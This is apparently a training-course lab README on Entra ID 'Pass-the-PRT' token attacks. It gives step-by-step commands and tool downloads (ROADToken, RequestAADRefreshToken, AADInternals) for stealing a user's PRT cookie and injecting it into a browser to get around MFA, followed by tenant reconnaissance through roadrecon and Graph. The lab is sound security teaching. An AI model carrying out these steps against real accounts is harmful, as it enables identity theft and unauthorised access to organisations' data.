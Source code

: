 # Lab 3 - Token Attacks

### Prepare a victim user with high privileges:

1. RDP and login to the Win11 VM using the user `user1@YOURDOMAIN.onmicrosoft.com`
2. run `dsregcmd /status` and make sure you don't have "invalid".. fields, and that you see `AzureAdPrt : YES`
   ![prt](prtexists.png)

3. Make sure you are verified:
   1. open Edge and make sure you have your profile logged in
   2. go to Account Info and make sure you don't have any warning about not being verified, if you have then verify yourself.
      ![verify](verifyAccount.png)

#

# Attacks

From this point on you act as the adversary, without knowing the Entra / AD Creds, you have code execution as Administrator on the Win 11 VM

## 1. Steal-the-PRT-Cookie (a.k.a as "Pass-the-PRT" attack)

**Notes:** 
- This method will bypass MFA only if the user has authenticated using MFA in its Windows
- PRT Cookie can only be used once and its TTL is short

**Prep:**
Download from inside the Win11 VM [ROADToken.exe](https://github.com/shackcrack007/hybrid-attacks-course-template/raw/refs/heads/main/labs%20(for%20course%20sessions,%20not%20part%20of%20setup)/lab-3-tokens/ROADToken.exe)

#### Option 1: Steal PRT Cookie using roadrecon tool

Use BrowserCore.exe to request a new PRT cookie with the current existing authentication context:

```powershell
# Get the nonce first
roadrecon auth --prt-init

# Get a new PRT Cookie
.\ROADtoken.exe <nonce>
```

#### Option 2: Steal PRT Cookie using RequestAADRefreshToken.exe tool

Uses the MicrosoftAccountTokenProvider DLL to request a new PRT cookie.
Download and Run RequestAADRefreshToken.exe from this folder (directly from inside the VM), it will save the output on disk as well as print the tokens to the console.

**Prep:** Download from inside the Win11 VM [RequestAADRefreshToken.exe](https://github.com/shackcrack007/hybrid-attacks-course-template/raw/refs/heads/main/labs%20(for%20course%20sessions,%20not%20part%20of%20setup)/lab-3-tokens/RequestAADRefreshToken.exe)
```
Requesting cookies for the following URIs: https://login.microsoftonline.com/
PID  : 37808

Uri: https://login.microsoftonline.com/
    Name      : x-ms-RefreshTokenCredential
    Flags     : 8256
    Data      : <...snip JWT...>; path=/; domain=login.microsoftonline.com; secure; httponly
    P3PHeader : CP="CAO DSP COR ADMa DEV CONo TELo CUR PSA PSD TAI IVDo OUR SAMi BUS DEM NAV STA UNI COM INT PHY ONL FIN PUR LOCi CNT"
```

#### Option 3: Steal PRT Cookie using AADInternals tool

Use BrowserCore.exe to request a new PRT cookie with the current existing authentication context:

```powershell
Import-Module AADInternals
# Get the PRToken
Get-AADIntUserPRTToken
```

### Once PRT Cookie is in your possession:

It's time to steal that user identity:

1. In incognito -> Clear your browser cookies and go to https://myapps.microsoft.com
2. F12 (Chrome dev tools) -> Application -> Cookies
3. Delete ALL cookies and then add one named `x-ms-RefreshTokenCredential` and set its value to the JSON Web Token (JWT) in the `Data` field from RequestAADRefreshToken.exe output
4. Refresh the page (or visit https://myapps.microsoft.com again) and you'll be logged it

- if it asks for a password, it means the PRT in the victim computer is invalid: you should restart and re-login as `user1@YOURDOMAIN.onmicrosoft.com` and make sure you're authenticated to Windows properly (you account is active)
**See demo video [here](stealPrtCookie.mp4)**

# Next Step - Reconnaissance

```powershell
Import-Module AADInternals
$prtToken = Get-AADIntUserPRTToken # get a new PRT Cookie if you used it already

# using the new PRT Cookie, get an access token
# method 1:
roadtx browserprtauth --prt-cookie $prtToken # this will automatically get new access token

# method 2:
$prtToken = Get-AADIntUserPRTToken
roadrecon auth -r aadgraph -c "1950a258-227b-4e31-a9cf-717495945fc2" --prt-cookie $prtToken

# method 3:
$prtToken = Get-AADIntUserPRTToken
$at = Get-Get-AADIntAccessTokenForAADGraph -PRTToken $prtToken
roadrecon auth --access-token $at # AT for aadgraph is needed

# Once you got an access token, look at it
type .roadtools_auth
type .roadtools_auth | roadtx describe

# start the recon on the tenant
roadrecon gather

roadrecon gui


# more info: search for the client_id here to see to which app (==client) we used to ask AT for: https://github.com/dirkjanm/ROADtools/blob/master/roadtx/roadtools/roadtx/firstpartyscopes.json

```

#### Continue your exploration via API...

You can start with:

```powershell
$prtToken = Get-AADIntUserPRTToken
$at = Get-AADIntAccessTokenForMSGraph -PRTToken $prtToken
$secureAt = ConvertTo-SecureString -String $at -AsPlainText -Force
Connect-MgGraph -AccessToken $secureAt
Get-MgUser

# Or via AAD Graph:
$client_id = "1b730954-1685-4b74-9bfd-dac224a7b894"
$prtToken = Get-AADIntUserPRTToken
$tenantId = "YOUR_TENANT_ID"
$at = Get-AADIntAccessTokenForAADGraph -PRTToken $prtToken
Connect-AzureAD -AadAccessToken $at -TenantId $tenantId -AccountId "1b730954-1685-4b74-9bfd-dac224a7b894" # "Azure Active Directory PowerShell" app id, see here for more https://github.com/dirkjanm/ROADtools/blob/master/roadtx/roadtools/roadtx/firstpartyscopes.json

Get-AzureADUser
```
### Feeling comfortable? go to the next lab!